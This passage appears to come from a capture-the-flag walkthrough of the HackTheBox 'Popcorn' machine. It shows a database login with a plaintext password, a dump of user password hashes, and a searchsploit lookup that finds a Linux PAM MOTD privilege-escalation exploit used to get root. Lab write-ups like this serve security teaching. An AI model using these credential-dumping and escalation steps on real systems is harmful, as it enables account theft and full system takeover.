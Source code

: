 In there, let's dump data, get Admin's hash, ...

```
www-data@popcorn:/var/www/torrent$ mysql -u torrent -p'SuperSecret!!'
<snip>

mysql> select * from users;
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
| id | userName | password                         | privilege | email                | joined              | lastconnect         |
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
|  3 | Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | admin     | admin@yourdomain.com | 2007-01-06 21:12:46 | 2007-01-06 21:12:46 | 
|  5 | user     | ee11cbb19052e40b07aac0ca060c23ee | user      | user@local           | 2021-04-01 19:03:10 | 2021-04-01 19:03:10 | 
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
2 rows in set (0.00 sec)
```

### Linux PAM 1.1.0

At george's home folder, there is an interested folder named `.cache` containing file `motd.legal-displayed`.

```
www-data@popcorn:/home/george$ ls -laR
ls -laR
total 868

./.cache:
<snip>
-rw-r--r-- 1 george george    0 Mar 17  2017 motd.legal-displayed
```

It is [MOTD — Message of the Day](https://ubuntu.com/legal/motd). Using `searchsploit` to find some its exploit.

```
┌──(Hades㉿10.10.14.5)-[2.8:26.0]~/walkthrough/hackthebox/popcorn
└─$ searchsploit motd
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tam | linux/local/14273.sh
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tam | linux/local/14339.sh
MultiTheftAuto 0.5 patch 1 - Server Crash / MOTD De | windows/dos/1235.c
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I used exploit `linux/local/14339.sh` to get root in `Popcorn server`.
